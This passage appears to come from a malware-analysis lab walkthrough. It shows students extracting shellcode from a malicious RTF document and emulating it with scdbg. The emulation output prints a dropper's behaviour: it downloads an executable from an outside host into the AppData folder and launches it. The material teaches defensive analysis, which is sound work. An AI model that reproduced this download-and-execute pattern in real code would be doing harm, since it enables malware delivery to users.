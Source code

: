 ```
C:\Tools\Maldoc\Office\Tools\DidierStevensSuite>python .\rtfdump.py C:\Tools\Maldoc\assessment\Project_Outline.doc --select 4 --hexdecode --dump > C:\Temp\academy_student.sc
```

Next, students will use `XORSearch.exe` to identify the entry point position (instruction pointer) of the shellcode within the `academy_student.sc` file:

Code: cmd

```cmd
XORSearch.exe -W C:\Temp\academy_student.sc
```

```
C:\Tools\Maldoc\Office\Tools\DidierStevensSuite>XORSearch.exe -W C:\Temp\academy_student.sc

Found XOR 00 position 0000006F: GetEIP method 3 E94B010000
Score: 10
```

With the obtained entry point address, students will use `scdbg.exe` located in the `C:\Tools\Maldoc\Office\Tools\scdbg\` directory to perform shellcode emulation and uncover the used functions (APIs) and the value for the IP address used within the `URLDownloadToFileW` function, respectively.

Code: cmd

```cmd
cd C:\Tools\Maldoc\Office\Tools\scdbg\
scdbg.exe /f C:\Temp\academy_student.sc /foff 6F
```

```
C:\Tools\Maldoc\Office\Tools\DidierStevensSuite>cd C:\Tools\Maldoc\Office\Tools\scdbg\

C:\Tools\Maldoc\Office\Tools\scdbg>scdbg.exe /f C:\Temp\academy_student.sc /foff 6F

Loaded 689 bytes from file C:\Temp\academy_student.sc
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000
Execution starts at file offset 6f
40106f  E94B010000                      jmp 0x4011bf  vv
401074  8209B3                          or byte [ecx],0xb3
401077  69E54171043F                    imul esp,ebp,0x3f047141
40107d  DB1B                            fistp [ebx]
40107f  3A2B                            cmp ch,[ebx]

40144a  GetProcAddress(ExpandEnvironmentStringsW)
401493  ExpandEnvironmentStringsW(%APPDATA%\lawserhgj5784.exe, dst=12fb84, sz=104)
4014a8  LoadLibraryW(UrlMon)
4014c3  GetProcAddress(URLDownloadToFileW)
401527  URLDownloadToFileW(http://{hidden}/_errorpages/{hidden}.exe, C:\Users\Administrator\AppData\Roaming\lawserhgj5784.exe)
40153f  GetProcAddress(GetStartupInfoW)
401549  GetStartupInfoW(12fda4)
401560  GetProcAddress(CreateProcessW)
401585  {hidden}( , C:\Users\Administrator\AppData\Roaming\lawserhgj5784.exe ) = 0x1269
401599  GetProcAddress(ExitProcess)
40159d  ExitProcess(0)

Stepcount 41813
```
